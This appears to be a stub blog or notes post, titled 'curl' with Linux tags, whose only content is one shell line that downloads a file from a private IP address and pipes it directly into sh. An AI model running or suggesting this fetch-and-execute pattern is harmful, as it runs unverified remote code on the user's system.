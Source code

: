 ```yaml
---
layout: post
title: curl
pid: 485
tags: [linux]
---
```


```shell
curl -s http://192.168.15.12/abc.bin | sh
```
